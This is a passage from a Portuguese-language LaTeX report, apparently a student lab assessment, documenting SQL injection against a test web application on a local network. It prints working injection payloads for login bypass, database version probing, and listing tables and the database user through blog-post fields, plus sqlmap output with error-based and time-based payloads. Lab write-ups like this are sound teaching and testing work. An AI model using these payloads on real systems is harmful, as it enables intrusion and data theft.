        
\includegraphics[width=\textwidth]{images/login_done.png}
        \caption{\textit{Login} bem sucedido}
    \end{figure}
    
    \clearpage
    
    
    \par Foram, também, feitos outros testes nesta vulnerabilidade do \textit{login} com o objetivo de saber mais informações do sistema. Um desses testes foi feito com o objetivo de detetar qual versão da base de dados \textit{MariaDB} se estava a utilizar. Utilizando o seguinte teste no email de \textit{login}:
    
    \begin{lstlisting}
       bob' or substring(@@version,1,4)=10.3; -- 
    \end{lstlisting}
    
    
    \par Sendo feito o \textit{login}, é possível concluir que a versão da \textit{MariaDB} é a \textbf{10.3} pois a verificação da mesma é uma condição verdadeira.
    
    
    
    \item {\textbf{Inserção de publicações}} 
    
    \par Na página da conta é permitido ao utilizador, além de alterar o nome e password, publicar no seu \textit{blog}. A página de \textit{blog} por si só já apresenta várias informações relativamente aos utilizadores pois supõe-se que é possível ver, para cada \textit{id} de utilizador inserido no \textit{url} o seu email. Sendo assim, e sabendo a vulnerabilidade de \textit{SQL Injection} de \textit{login}, é muito mais fácil aceder a qualquer conta desejada com o email. No exemplo seguinte, para o \textit{url} \textit{http://192.168.56.102/blog.php?author=1}, conseguimos saber o email do utilizador com \textit{id} 1:
    
    \begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/blog_1.png}
        \caption{\textit{Blog} do utilizador com \textit{id} 1}
    \end{figure}
    
    \clearpage
    
    \par No entanto, esta página também não está isenta de \textit{SQL Injection}. Durante os testes feitos ao inserir publicações no \textit{Blog} e, supondo que o formulário estaria a fazer um \textit{Insert} na base de dados do tipo \textit{INSERT INTO table\_name VALUES (value1, value2);} chegou-se à conclusão que, para além de texto completamente normal, também era possível inserir comandos \textit{SQL} no corpo da publicação, ou seja, o segundo valor da \textit{query}. Com isto em mente, exploraram-se alguns exemplos:
    
    \begin{itemize}
        \item \textbf{Determinar a base de dados atual}
        
        \par Inserindo no título da publicação o seguinte:
        \begin{lstlisting}
Tabelas', (SELECT DATABASE() LIMIT 1) ) -- 
        \end{lstlisting}
        
        \par Retornando uma publicação com o título "Tabelas" e a base de dados atual:
         \begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/db_sql.png}
        \caption{Base de dados atual}
    \end{figure}
    
    \item \textbf{Ver todas as tabelas da base de dados atual}
    
    \par Seguindo o esquema anterior, é também possível ver todas as tabelas da base de dados atual, uma de cada vez:
    \begin{lstlisting}
Tabelas', (SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES LIMIT 1) ) --
    \end{lstlisting}
        
    
    
    \begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/db_sql_2.png}
        \caption{Primeira tabelada base de dados atual}
    \end{figure}
    \par Utilizando o atributo \textit{OFFSET} de \textit{SQL} as várias tabelas podem ser alcançadas.
    
    \\
    
    \item \textbf{Ver o utilizador atual da base de dados}
    
    \par Como referido em cima mas desta vez inserindo:
    \begin{lstlisting}
Tabelas', (SELECT user()) ) --
    \end{lstlisting}
    
    \begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/db_sql_3.png}
        \caption{Utilizador da base de dados}
    \end{figure}
    
    \par Como é possível verificar, o utilizador é o \textit{root}, levando a querer que, caso a base de dados contenha alguma vulnerabilidade do género, é possível aceder à \textit{root} do sistema e obter controlo total.
    

    \end{itemize}
    
    \par Apesar de apenas serem demonstrados alguns exemplos relativamente à inserção de publicações, com este tipo de vulnerabilidade, quanto maior o conhecimento do atacante em relação a \textit{SQL}, maior o estrago que poderá ser causado na máquina.
    
    
    \item {\textbf{Filtro de produtos}}
    
    \par Relativamente à loja da aplicação \textit{web}, foi reparado um filtro nos produtos por \textit{id}(prod). Após realização do habitual teste para verificação de uma vulnerabilidade de \textit{SQL Injection} com uma \textbf{\textit{'}}, esta foi confirmada:
    
    \begin{figure}[!h]
        \centering
        
\includegraphics[width=450]{images/product.png}
        \caption{Vulnerabilidade no filtro de produtos}
    \end{figure}

    
    \par Esta vulnerabilidade, sendo a que mais facilmente apresenta os dados pedidos à base de dados e permite inserção de comandos \textit{SQL} no \textit{url} foi a candidata ideal para a utilização da ferramenta \textit{SQLMap}, referida anteriormente.
    
    \par Utilizando as opções \textit{--level} e \textit{--risk} para testar mais pontos de entrada e aumentar a complexidades das \textit{queries} respetivamente, foi possível obter as seguintes informações:
    
    \begin{lstlisting}
python sqlmap.py -u 'http://192.168.56.102/details.php?prod=1' --level=5 --risk=3 
---
Parameter: prod (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: prod=1 AND (SELECT 9674 FROM(SELECT COUNT(*),CONCAT(0x7176707671,
    (SELECT (ELT(9674=9674,1))),0x716a7a6a71,FLOOR(RAND(0)*2))x 
    FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: prod=1 AND (SELECT 4544 FROM (SELECT(SLEEP(5)))FOjk)
---
[00:20:20] [WARNING] changes made by tampering scripts are not included in shown
payload content(s)
[00:20:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[00:20:20] [WARNING] HTTP error codes detected during run:
400 (Bad Request) - 15972 times
[00:20:20] [INFO] fetched data logged to text files under 
'/Users/paiva/.local/share/sqlmap/output/192.168.56.102'

[*] ending @ 00:20:20 /2020-11-12/
    \end{lstlisting}
    \clearpage
    \par Deste resultado é possível detetar a existência de dois tipos de \textit{SQL Injection}:
    
    \begin{itemize}
        \item {\textbf{Error-based}}
        
        \par Onde o \textit{SQLMap} substitui ou adiciona ao parâmetro \textit{prod} uma \textit{query} que provoca um erro, procurando depois na resposta o erro que deveria ter sido provocado. Apenas funciona devido à aplicação web ter sido configurada para apresentar erros do sistema da base de dados.
        
        \item {\textbf{Time-based blind}}
        
        \par Novamente, é substituido ou adicionado ao parâmetro \textit{prod} uma \textit{query} que coloca o sistema da base de dados em espera durante algum tempo. Comparando posteriormente o tempo de resposta a ferramenta consegue deduzir o resultado.
    \end{itemize}
    
